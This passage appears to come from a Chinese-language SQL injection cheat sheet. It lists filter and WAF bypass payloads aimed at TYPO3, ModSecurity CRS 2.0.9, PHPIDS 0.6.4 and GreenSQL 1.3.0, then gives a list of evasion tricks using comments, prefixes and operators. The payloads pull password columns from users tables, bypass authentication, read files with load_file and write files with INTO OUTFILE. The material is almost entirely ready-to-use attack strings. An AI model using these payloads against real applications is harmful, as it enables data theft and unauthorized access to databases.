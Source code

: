 Bypass:

```
vuln.php?inject=%a0UNI%6fN(SELECT'ad_click' 
```

#### 3\. TYPO3 CMS

```
$val = str_replace(array("'"," ","("),"",$arrFields[$fname]); // basic defence 
```

Bypass:

```
vuln.php?id=1/**/union%a0select/**/1,pass,3`a`from`users` 
```

### b) WAF 绕过示例

#### 1\. ModSecurity CRS 2.0.9

```
1'and 0x61=(/*foo*/SELECT mid(pass,1,1) from users limit 1,1)and'1
1'union/*!select*/pass,load_file(0x123456789)from users-- - 
```

#### 2\. PHPIDS 0.6.4

```
foo'!=@a:=0x1 div'1a false != true 　　//auth bypass
foo'div count(select`pass`from(users)where mid(pass,1,1)rlike lower(conv(10,pi()*pi(),pi()*pi())) )-'0
a'in(true) and false */*!(true)union#newline select pass`alias`from users where true*/* n'1 
```

#### 3\. GreenSQL 1.3.0

检测关键字：`union, information_schema, into outfile, current_user, current_date, version`

检测函数：`mid(), substring(), substr(), load_file(), benchmark(), user(), database(), version()`

```
adm' 'in' or 1='1        // auth bypass
'-(1)union(select table_name,load_file('/tmp/test'),@@version
from /*! information_schema.tables */);%00    //select union
'-'' into%a0outfile '/tmp/test   //write to file 
```

### c) SQLi Filter Evasion Cheat sheet

```
#注释
' or 1=1#
' or 1=1/* (MySQL < 5.1)
' or 1=1;%00
' or 1=1 union select 1,2 as `
' or#newline
' /*!50000or*/1='1
' /*!or*/1='1

#前缀
+ – ~ !
' or –+2=- -!!!'2

#操作符：
^, =, !=, %, /, *, &, &&, |, ||, , >>, <=, <=, ,, XOR, DIV, LIKE, SOUNDS LIKE, RLIKE, REGEXP, LEAST, GREATEST, CAST, CONVERT, IS, IN, NOT, MATCH, AND, OR, BINARY, BETWEEN, ISNULL

#空格
```